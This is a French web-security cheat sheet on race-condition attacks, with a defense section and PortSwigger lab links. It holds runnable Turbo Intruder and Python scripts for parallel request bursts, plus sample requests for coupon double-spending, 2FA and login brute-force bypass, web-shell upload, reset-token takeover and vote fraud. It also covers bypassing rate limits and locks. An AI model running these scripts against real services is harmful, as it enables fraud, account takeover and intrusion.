

# 🏁 Race Conditions

> [!info] **En 1 phrase**
> Race condition = envoyer **plusieurs requêtes simultanées** sur une ressource partagée pour que
> deux opérations exécutées **en parallèle** dépassent une limite logique (solde, quota, validation,
> rate-limit) → double-spend, solde multiplié, bypass 2FA/anti-bruteforce.
>
> Source principale : **[PayloadsAllTheThings — Race Condition](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Race%20Condition/README.md)** + recherche **James Kettle (PortSwigger)**.

---

## 🎯 Concept



> [!info] 💡 **TOCTOU (Time-Of-Check To Time-Of-Use)**
> La vulnérabilité vient du **décalage** entre l'instant où l'app **vérifie** une condition
> (solde suffisant, code valide, quota pas atteint) et l'instant où elle **utilise** le résultat.
> Si 2 requêtes passent le check **avant que la première ait écrit le résultat**, les deux gagnent.
> `check(solde > prix)` → `use(débit)` : la fenêtre entre les deux = la fenêtre d'exploitation.

---

## 🗺️ Où chercher les races

| Surface d'attaque | Logique faillible | Impact typique |
|---|---|---|
| Coupons / gift cards / codes promo | "déjà utilisé" vérifié non atomiquement | **Double-spend** → crédit gratuit |
| Portefeuille / transferts / recharges | débit/crédit en 2 étapes (check puis write) | Solde **multiplié**, overdraft |
| Upload de fichiers | check contenu → move, 2 requêtes sur le même chemin | **TOCTOU upload** : bypass antivirus/filtre |
| Likes / votes / élections | compteur `n = n + 1` non atomique | Votes **dédoublés** |
| Invitations / inscriptions | quota "1 invite" vérifié par requête | Créer N comptes avec 1 invite |
| 2FA / reset de mot de passe | code validé + invalidé en 2 étapes | **Bypass 2FA**, OTP réutilisable |
| Rate-limit / anti-bruteforce | compteur incrémenté après le check | Bypass login, brute-force illimité |
| Sessions / action "once" | flag "déjà consommé" non atomique | Rejouer une action unique (email, clé) |

---

## 🧬 Les classes de race

> Les races se différencient par **comment** les requêtes sont envoyées, pas par la vulnérabilité.
> Le but : maximiser la **simultanéité réelle** au niveau du serveur applicatif.

### 1. Single-packet attack (turbo / HTTP/2)

- Envoi de **~20-30 requêtes groupées dans le même paquet réseau** (ou quasi).
- Supprime le **jitter réseau** : toutes arrivent en même temps sur le serveur.
- Classe la plus fiable — c'est le défaut standard à tester en premier.

### 2. Multi-packet (naïf / concurrence classique)

- N connexions TCP séparées, requêtes lancées **en parallèle** (threads, asyncio).
- Le réseau introduit de la **latence aléatoire** → moins fiable, fenêtre plus dure à toucher.
- Utilisable quand HTTP/2 n'est pas dispo et que la fenêtre est large (processus lents).

### 3. GET-based race

- Même logique mais sur des **endpoints GET** (ex: `/redeem?code=X`, `/vote?id=Y`).
- Plus simple à envoyer (pas de corps), mais les tokens CSRF / protections compliquent parfois.
- Les caches peuvent donner des **faux positifs** (réponses identiques en cache ≠ vuln).

### 4. HTTP/2 — single connection

- HTTP/2 **multiplexe** plusieurs requêtes sur **une seule connexion TCP**.
- On peut envoyer ~20-30 requêtes en un seul write → elles traversent la pile réseau ensemble.
- Variante "smuggling-friendly" : pas de front-end qui resynchronise, pas de jitter.
- ⚠️ Un **proxy/front-end** qui convertit HTTP/2 → HTTP/1.1 peut casser la simultanéité.

### 5. Cas limites & variantes

- **Multi-endpoint** : la race traverse des endpoints différents (ex: `POST /transfer` + `POST /redeem` qui partagent le même solde) — elle s'écroule souvent sur un état partagé commun (file, cache, DB).
- **Partial-construction** : la ressource est **partiellement créée** (upload par chunks, hash calculé plus tard) → 2 requêtes peuvent pousser la même ressource dans 2 états.
- **First-sequence sync** : synchronise la **séquence** (pas seulement le dernier octet) pour briser la limite de ~65 535 octets d'un paquet → payloads plus gros autorisés.

---

## 🚀 Exploitation

### Burp Suite — HTTP/1.1 single-packet attack (Repeater)

```text
1. Envoie la requête dans Repeater (onglet HTTP/1.1)
2. Duplique-la ~20 fois (Ctrl+R)
3. "Create group" → ajoute toutes les copies au groupe
4. Clic droit sur le groupe → "Send group in parallel (single-packet attack)"
5. Analyse les réponses : les "gagnants" diffèrent des perdants (ex: 200 vs 400 "déjà utilisé")
```

### Burp Suite — HTTP/2

```text
1. Vérifie que l'onglet affiche "HTTP/2" (sinon right-click → Change protocol)
2. Même méthode : groupe de 20-30 requêtes, "Send group in parallel"
3. Le multiplexage HTTP/2 = aucune resynchronisation front-end → simultanéité maximale
```

### Turbo Intruder — script complet (single-packet)

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=30,
                           pipeline=False)

    # 1 requête de "pré-chauffe" optionnelle : charger la page, obtenir le token CSRF
    # engine.queue(target.req)  → pour récupérer un token dans handleResponse

    for i in range(30):
        engine.queue(target.req, target.baseInput, gate='race1')

    engine.start(timeout=5)
    engine.openGate('race1')          # ← relâche TOUTES les requêtes en même temps
    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)
```

> [!warning] ⚠️ **Header requis** : Turbo Intruder exige un header injectable type
> `x-request: %s` dans l'éditeur de requête, sinon il ne peut pas numéroter les requêtes.

### Turbo Intruder — 2 requêtes différentes (multi-endpoint, fenêtre en ms)

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=100,
                           pipeline=False)

    request1 = '''
POST /transfer HTTP/1.1
Host: target.com
Cookie: session=<REDACTED>

amount=10&to=attacker
    '''
    request2 = '''
GET /wallet/balance HTTP/1.1
Host: target.com
Cookie: session=<REDACTED>
    '''

    engine.queue(request1, gate='race1')
    for i in range(30):
        engine.queue(request2, gate='race1')
    engine.openGate('race1')
    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)
```

### HTTP/1.1 Last-byte synchronization

- Technique historique : envoyer toutes les requêtes **sauf le dernier octet**, puis
  **relâcher** toutes les dernières bytes d'un coup.
- Toutes les requêtes sont donc "prêtes" dans la pile réseau, la fenêtre = quasi nulle.

```python
engine.queue(request, gate='race1')
engine.queue(request, gate='race1')
engine.openGate('race1')
```

### Python custom — httpx + threads

```python
import httpx, threading

URL = "https://target.com/redeem"
DATA = {"code": "FREE-100"}

def send():
    try:
        r = httpx.post(URL, data=DATA, cookies={"session": "..."})
        print(r.status_code, r.text[:100])
    except Exception as e:
        print("ERR", e)

threads = [threading.Thread(target=send) for _ in range(20)]
for t in threads:
    t.start()
for t in threads:
    t.join()
```

### Python custom — asyncio (single event loop, max simultanéité)

```python
import asyncio, httpx

async def race():
    async with httpx.AsyncClient(base_url="https://target.com") as c:
        # AsyncClient réutilise le pool de connexions : moins de handshakes
        reqs = [c.post("/redeem", json={"code": "FREE-100"}) for _ in range(20)]
        for task in asyncio.as_completed(reqs):
            r = await task
            print(r.status_code, r.text[:100])

asyncio.run(race())
```

> [!tip] 💡 Pour du **HTTP/2 en Python** : `httpx` + `h2`, ou `h2spacex` (Scapy, single-packet
> attack bas niveau). La simultanéité vient de la **réutilisation de connexion** :
> jamais une connexion par requête.

---

## 💥 Cas concrets

### Double-spend de coupon / gift card

```http
POST /redeem HTTP/1.1
Host: target.com
Cookie: session=attacker

code=GIFT-500

# 20x en simultané → 20 crédits de 500 si le flag "used" n'est pas atomique
```

### Multiplier un solde (transfert vs crédit)

```http
POST /transfer HTTP/1.1
Host: target.com

amount=1000&to=attacker

# 2 transferts simultanés sur un solde de 1000 → les deux passent le check
# → 2000 retirés (overdraft) ou 2000 reçus sur l'autre compte
```

### Rate-limit bypass — 2FA / OTP

```http
POST /verify-2fa HTTP/1.1
Host: target.com

code=123456&session=...   # premier essai

# Valider le code + invalider le flag en 2 requêtes simultanées
# → le code reste valide pour la 2e requête (fenêtre TOCTOU)
```

### Login / anti-bruteforce bypass

```http
POST /login HTTP/1.1
Host: target.com

username=admin&password=x

# 20 essais simultanés : le compteur "failed attempts" est incrémenté APRES le check
# → chaque requête voit encore 0 échec → 20 mots de passe essayés sans lockout
```

### Upload TOCTOU

```http
POST /upload HTTP/1.1
Host: target.com
Content-Type: multipart/form-data

file=shell.php            # filtre extension vérifie AVANT l'écriture finale

# 2 uploads simultanés du même fichier → le 2e arrive après le check mais avant le rename
# → bypass antivirus / filtres d'extension (fichier dangereux stocké)
```

### Reset de mot de passe / invitation

```http
POST /forgot-password HTTP/1.1
Host: target.com

email=victim@example.com

# 2 requêtes simultanées → 2 tokens émis ; le 1er est invalidé MAIS le 2e reste actif
# → on récupère un token encore valide pour changer le mdp de la victime
```

### Élections / votes / likes

```http
GET /vote?id=candidate42 HTTP/1.1
Host: target.com
Cookie: session=voter

# 2 votes simultanés : le check "déjà voté" passe pour les deux
# → double-vote, triche aux élections, likes dédoublés (n = n + 1 non atomique)
```

---

## 🔍 Détection d'une fenêtre de race

> [!tip] 💡 **Méthodo PortSwigger (radar du bug bounty)**
> 1. **Choisis un endpoint à effet secondaire visible** (solde, compteur, email envoyé).
> 2. Lance 2 requêtes en parallèle → si **1 seule** a l'effet attendu, pas de race. Si **2+** l'ont, bingo.
> 3. Remonte graduellement à 10-20 requêtes pour fiabiliser et estimer la fenêtre.
> 4. La **latence de traitement serveur** est le meilleur indicateur de la fenêtre exploitable,
>    pas la latence réseau.

### Gestion de connexion (clé du succès)

- **Réutiliser la même connexion** (HTTP/2 ou keep-alive HTTP/1.1) → pas de handshake TCP/TLS en plus.
- **Ne pas attendre les réponses** entre les requêtes → tout est écrit dans la socket en une rafale.
- Si le serveur traite 2 requêtes en ~1 ms, la fenêtre est minuscule → simultanéité maximale (single-packet).

### Faux positifs à exclure

- Réponses **identiques en cache** (le cache sert la même réponse → rien à voir avec une race).
- **Rate-limit côté proxy** qui répond 429/403 pour toutes → c'est la protection, pas une race.
- Un seul résultat **vraiment différent** (statut, corps, redirection) → c'est le signal exploitable.

---

## 🛡️ Bypass des protections

### Contre les locks / sérialisation

| Protection | Bypass |
|---|---|
| Verrou applicatif (`synchronized`, mutex) | Trouver un **autre chemin d'accès** : endpoint API ≠ endpoint web, 2 clés d'idempotence différentes, 2 comptes/sessions |
| Transaction DB à isolation faible | La fenêtre TOCTOU persiste si le **check** est hors transaction ; viser des écritures séparées |
| Flag "used" / état `enum` | Cibler un **état intermédiaire** (partial construction) : la ressource existe sans flag |
| Cache / CDN qui sérialise | Basculer sur un autre **hostname / port / variante de requête** qui contourne la sérialisation |
| Rate-limit par IP | **Distribuer** : X-Forwarded-For, proxy, ou attaquer via plusieurs comptes/sessions |

### Contre les compensations de latence

- Les correctifs qui ajoutent un **sleep aléatoire** ou un **délai** au check **agrandissent la fenêtre**
  au lieu de la fermer : c'est un **antipattern** (réduire la fenêtre ne supprime pas le TOCTOU).
- La vraie défense = **atomicité** (voir ci-dessous), pas le ralentissement.
- Si le serveur **sérialise via un lock**, relancer la rafale sur un **second endpoint** qui touche
  la même ressource (multi-endpoint) contourne souvent le lock monothreadé par endpoint.

---

## 🔧 Outils

| Outil | Usage |
|---|---|
| **Turbo Intruder** (Burp) | Script Python custom : gate/queue, single-packet HTTP/1.1 + HTTP/2, milliards de requêtes |
| **Burp Repeater + groupes** | HTTP/1.1 single-packet et HTTP/2 sans écrire de code |
| **h2spacex** | Single-packet attack HTTP/2 bas niveau (Scapy) — payloads/séquences optimisées |
| **Raceocat** | Exploitation de races HTTP simplifiée (haut niveau) |
| **httpx + threading / asyncio** | Scripts custom rapides, sans Burp |

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Verrouillage atomique** | Une seule opération ACID : `UPDATE solde SET x = x - 1 WHERE x > 0` ou `SELECT ... FOR UPDATE` — le check et le write ne font **qu'un** |
| **Transactions** | Envelopper check + write dans une **transaction** à isolation stricte (sérialisable) |
| **Idempotence** | Clé unique par opération (UUID côté client) → une seule exécution de chaque action |
| **Limites serveur centralisées** | Rate-limit stocké dans une ressource **partagée atomique** (Redis INCR/INCRBY), pas en mémoire par worker |
| **Single request processing** | File d'attente / mutex par **ressource métier** (coupon, compte) — jamais par connexion |
| **Défense en profondeur** | Re-vérifier l'effet **post-écriture** (solde après débit) + audit logs des doubles opérations |
| **Jamais de sleep** | Ralentir le check = aggraver, jamais corriger (le TOCTOU reste présent) |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Pourquoi HTTP/2 change tout**
> En HTTP/1.1, chaque requête part sur sa connexion → le front-end peut resynchroniser et espacer.
> En HTTP/2, 20-30 requêtes partent dans **le même write** sur une connexion partagée :
> plus de jitter réseau, elles arrivent quasi simultanément → fenêtres de **quelques millisecondes** exploitées.

> [!tip] 💡 **Mesurer la fenêtre avant d'exploiter**
> 1. Repère le temps de traitement serveur (statistiques de latence dans Burp).
> 2. Fenêtre < 1 ms → single-packet HTTP/2. Fenêtre large (uploads, PDF, envois d'email) → threads classiques suffisent.

> [!tip] 💡 **La simultanéité réelle est la priorité**
> On n'attaque pas un bug "logique" mais un bug de **timing**. Le vrai levier = faire que le serveur
> traite N requêtes en même temps : réutilisation de connexion, pas d'attente de réponse, gate groups.

> [!warning] ⚠️ **Pièges courants**
> - Ne jamais déclencher un effet irréversible sur l'état de la victime avec des tests non maîtrisés.
> - **Faux positif cache** : des réponses identiques en rafale ≠ race (vérifier un effet d'état réel).
> - Le nombre de requêtes importe : 2 échecs ≠ pas de vuln ; monter à 10-30 et recommencer.
> - Les tokens CSRF cassent la simultanéité : les récupérer d'abord, ou viser des endpoints sans.
> - Un WAF/rate-limit qui répond 429 = une **protection**, pas une preuve de race.

---

## 🧪 Labs

- PortSwigger — Limit overrun : https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun
- PortSwigger — Multi-endpoint : https://portswigger.net/web-security/race-conditions/lab-race-conditions-multi-endpoint
- PortSwigger — Bypassing rate limits : https://portswigger.net/web-security/race-conditions/lab-race-conditions-bypassing-rate-limits
- PortSwigger — Single-endpoint : https://portswigger.net/web-security/race-conditions/lab-race-conditions-single-endpoint
- PortSwigger — Partial construction : https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction
- PortSwigger — Time-sensitive : https://portswigger.net/web-security/race-conditions/lab-race-conditions-exploiting-time-sensitive-vulnerabilities

---

## 🔗 Liens

- [[IDOR|🎯 IDOR]]
- [[Web Cache Deception|🗑️ Cache Deception]]
- [[Business Logic|🧠 Business Logic]]
- → Note complète : [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — Race Condition](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Race%20Condition/README.md)
- 🎤 [Smashing the State Machine — James Kettle (DEF CON 31)](https://portswigger.net/research/smashing-the-state-machine)
